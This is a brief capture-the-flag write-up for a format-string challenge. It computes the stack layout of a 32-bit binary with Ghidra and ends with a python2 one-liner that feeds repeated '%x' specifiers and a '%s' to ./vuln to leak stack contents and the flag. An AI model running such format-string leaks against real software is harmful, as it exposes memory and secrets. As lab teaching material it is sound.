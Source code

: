 In the following instructions esp value continue changing by -0x30 - 0xc + 0x10 - 0x4 + 0x10 - 0xc + 0x10 - 0x8 + 0x10 - 0x4 + 0x10 - 0xc = -0x14.

The push operation for call function's argument should be ignored.

Before calling printMessage1 function, the address of input string is pushed into stack, which means esp-4.

we use ghidra to see the main function, and found that there are 3 local variables(4 bytes) before buf.(since stack is first in last out to to match the order the last declare variable will be pushed into stack first). Therefore, these 3 local variables declared before buf will be pushed into stack after buf.

The total stack length(bytes) will be 4(argument for printMessage1) + 20(0x14, changing before printf function call) + 8(push ebx, push ecx) + 4(push ebp) + 4(push DWORD PTR [ecx-0x4]) + 12(local variables) + 4(buf, the pointer point to the content of flag).
```
stack when calling printf
 
printMessage1 part     low
-----------------------
printMessage1 argument
-----------------------
4 bytes
-----------------------
4 bytes
-----------------------
4 bytes
-----------------------
4 bytes
-----------------------
4 bytes
-----------------------
ecx
-----------------------
ebx
-----------------------
ebp
-----------------------
DWORD PTR [ecx-0x4]
-----------------------
read
-----------------------
len
-----------------------
input
-----------------------
buf
-----------------------high

main part has 14 (4 bytes) 
```
Combine printMessage1, printMessage2, printMessage3, main parts, total stack length will be 7 + 8 + 8 + 14 = 37.
```
cd /problems/got_5_c5119617c90aa544a639812dbc41e24e 
python2 -c "print '\x20\x25\x78\x20'*36 + '\x20\x25\x73\x20'" | ./vuln
```
